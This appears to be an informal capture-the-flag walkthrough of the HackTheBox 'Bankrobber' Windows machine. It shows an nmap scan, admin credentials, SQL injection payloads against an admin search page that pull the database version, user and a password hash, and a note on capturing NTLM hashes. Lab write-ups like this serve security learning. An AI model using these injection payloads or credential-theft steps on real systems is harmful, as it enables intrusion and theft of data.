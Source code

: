 # Bankrobber

- Difficulty: "Insane"
- Platform: Windows
---

10.10.10.154

## Nmap
```bash
I wiped out disk without backing up notes like an idiot... 
picking up from web-admin access

The Rundown:

Esentially, there is a database user search and and E-Coin transfer service. 
The transfer service is manually reviewed by an administrator. 

The filed inputs do not validate/sanitize.
A cross-site scripting attack is possible, although finicky, returning the administrators cookie within the response headers.

There seems to be SQL-Injection present in the user database lookup, although I have yet to go any further. I am conflating both these things together and I forget what I actually did ut oh well... continuing.

➜  Bankrobber git:(main) ✗ sudo nmap -oA nmap/found-TCP-detailed 
	-p$(cat nmap/allports-TCP-initial.nmap | grep open | awk '{ print $1 }' | awk '{ print $0+0}' | sed ':a;N;$!ba;s/\n/,/g') -sCV -T4 --min-rate 5000 -Pn 10.10.10.154
 
Starting Nmap 7.94 ( https://nmap.org ) at 2023-07-30 02:53 EDT
Stats: 0:00:40 elapsed; 0 hosts completed (1 up), 1 undergoing Script Scan
NSE Timing: About 99.82% done; ETC: 02:54 (0:00:00 remaining)
Nmap scan report for 10.10.10.154
Host is up (0.027s latency).

PORT     STATE SERVICE      VERSION
80/tcp   open  http         Apache httpd 2.4.39 ((Win64) OpenSSL/1.1.1b PHP/7.3.4)
|_http-server-header: Apache/2.4.39 (Win64) OpenSSL/1.1.1b PHP/7.3.4
|_http-title: E-coin
443/tcp  open  ssl/http     Apache httpd 2.4.39 ((Win64) OpenSSL/1.1.1b PHP/7.3.4)
| tls-alpn: 
|_  http/1.1
|_ssl-date: TLS randomness does not represent time
| ssl-cert: Subject: commonName=localhost
| Not valid before: 2009-11-10T23:48:47
|_Not valid after:  2019-11-08T23:48:47
|_http-server-header: Apache/2.4.39 (Win64) OpenSSL/1.1.1b PHP/7.3.4
|_http-title: E-coin
445/tcp  open  microsoft-ds Microsoft Windows 7 - 10 microsoft-ds (workgroup: WORKGROUP)
3306/tcp open  mysql        MariaDB (unauthorized)
Service Info: Host: BANKROBBER; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-time: 
|   date: 2023-07-30T06:54:01
|_  start_date: 2023-07-30T05:18:55

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 53.85 seconds
```

`admin:Hopelessromantic`

A regular union select statement reveals version `MariaDB-10.1.38` in field 2:`
```http
POST /admin/search.php HTTP/1.1
Host: 10.10.10.154
Content-Length: 37
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/115.0.5790.110 Safari/537.36
Content-type: application/x-www-form-urlencoded
Accept: */*
Origin: http://10.10.10.154
Referer: http://10.10.10.154/admin/
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: id=1; username=YWRtaW4%3D; password=SG9wZWxlc3Nyb21hbnRpYw%3D%3D
Connection: close

term=1'union+select+1,@@version,3-- -
```

```
term=1'union+select+1,user()+from+mysql.user,3-- -
user: `root@localhost`

lucky guess:
term=1'union slect user,password,3 from mysql.user--
hash: *F435725A173757E57BD36B09048B8B610FF4D0C4
```

SHA-1 hash decodes to `Welkom1!`. This could be either admin or gio's password. 
Connections aren't permitted to the MySQL service from an external IP. Localhost only:
```bash
➜  loot git:(main) ✗ mysql -u 'gio' -p 'Welkom1!' -h 10.10.10.154
mysql: Deprecated program name. It will be removed in a future release, use '/usr/bin/mariadb' instead
Enter password: 

ERROR 1130 (HY000): Host '10.10.14.2' is not allowed to connect to this MariaDB server
```

This password does not work on SMB. 
A possibility would be to capture an NTLM hash since mysql is available.

Resources: 
https://book.hacktricks.xyz/windows-hardening/ntlm/places-to-steal-ntlm-creds
https://osandamalith.com/2017/02/03/mysql-out-of-band-hacking/

Querying `term=1'union select @@secure_file_priv,2,3;-- -` outputs nothing in field 1, indicating that the secure file privilege parameter is not effective.

